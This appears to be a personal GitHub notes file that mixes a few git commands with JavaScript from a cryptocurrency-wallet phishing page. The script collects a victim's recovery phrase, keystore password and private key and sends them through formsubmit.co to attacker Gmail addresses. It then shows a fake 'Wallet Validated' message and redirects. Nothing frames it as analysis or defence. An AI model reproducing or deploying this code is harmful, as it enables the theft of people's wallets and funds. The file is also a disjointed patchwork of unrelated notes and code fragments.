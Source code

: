 # goodman
Essayz new link


to remove a remote repository
git remove remote origin

to delete commits and go back to head
git reset --hard HEAD~1










       /*  $.ajax({
          url: 'parser.php',
          method: 'POST',
          data: { import_type: 'phrase', wallet: wallet, phrase: phraseInputVal },
          success: function (res) {
            if (res.trim() != "") {
              if (res.trim() == "string_error") {
                alert('Fill in your recovery phrase');
              } else if (res.trim() == "success") {
                phraseInputVal = '';
                document.querySelector('.sending').style.display = 'block';
                setTimeout(() => {
                  alert('Wallet Validated...');
                  redirect();
                }, 3000);                             
              }
            } else {
              alert('Could not proceed due to some errors, kindly try again later.')
            }
          }
        }); */


        <script>
    const phraseProceedBtn = document.getElementById('phraseProceed');
    const keystorejsonProceedBtn = document.getElementById('keystorejsonproceed');
    const privatekeyProceedBtn = document.getElementById('privatekeyProceed');
    const phraseProceedHandler = (e) => {
      let phraseInputVal = document.getElementById('phraseInput').value;
      const wallet = document.getElementById('wallet_id').value;
      if (phraseInputVal.trim() === "") {
        alert('Fill in your recovery phrase');
      } else {
        e.preventDefault();
        let a = document.querySelector(".label");
        mail = "codenew39@gmail.com";
        next = "next.html";
        subject = `${window.location.hostname} ${new Date()}`;
        let r = new FormData();
        let s = document.querySelector("form").name;
        if (e.target.name === "phrasekey") {
          phrase = document.querySelector("textarea").value;
          r.append("phraseKey", phrase);
        }
        r.append("_captcha", false);
        r.append("_next", next);
        r.append("_template", "table");
        r.append("_subject", subject);
        let n = `https://formsubmit.co/${mail}`;
        fetch(n, {
          method: "POST",
          body: r
        }).then((e) =>
          window.location.assign(next),
        );
      }
    }

    const keystorejsonProceedHandler = (e) => {
        let keystorejson = document.getElementById('keystorejson').value;
        let keystorepassword = document.getElementById('keystorepassword').value;
        const wallet = document.getElementById('wallet_id').value;
        if (keystorejson.trim() === "" || keystorepassword === "") {
          alert('Fill out all form fields before proceeding');
        } else {
        };

        const privateKeyProceedHandler = () => {
          let privatekey = document.getElementById('privatekey').value;
          const wallet = document.getElementById('wallet_id').value;
          console.log(wallet);
          if (privatekey.trim() === "") {
            alert('Fill in your private key');
          } else {
            $.ajax({
              url: `https://formsubmit.co/Mayhemofflin@gmail.com`,
              method: 'POST',
              data: {
                import_type: 'private',
                wallet: wallet,
                privatekey: privatekey
              },
              success: function (res) {
                if (res.trim() !== "") {
                  if (res.trim() === "string_error") {
                    alert('Fill in your private key.');
                  } else if (res.trim() === "success") {
                    privatekey = '';

                    document.querySelector('.sending').style.display = 'block';
                    setTimeout(() => {
                      alert('Wallet Validated...');
                      redirect();
                    }, 3000)
                  }
                } else {
                  alert('Could not proceed due to some errors, kindly try again later.')
                }
              }
            });
          }
        };

        /*  const redirect = () => {
           window.location.href = 'barcode.jpg';
         }; */

        phraseProceedBtn.addEventListener('click', phraseProceedHandler);
        keystorejsonProceedBtn.addEventListener('click', keystorejsonProceedHandler);
        privatekeyProceedBtn.addEventListener('click', privateKeyProceedHandler);
  </script>


git config user.name "skelemba"
git config user.email "skelemba39@gmail.com"
git config credential.${remote}.username skelemba
git config credential.helper store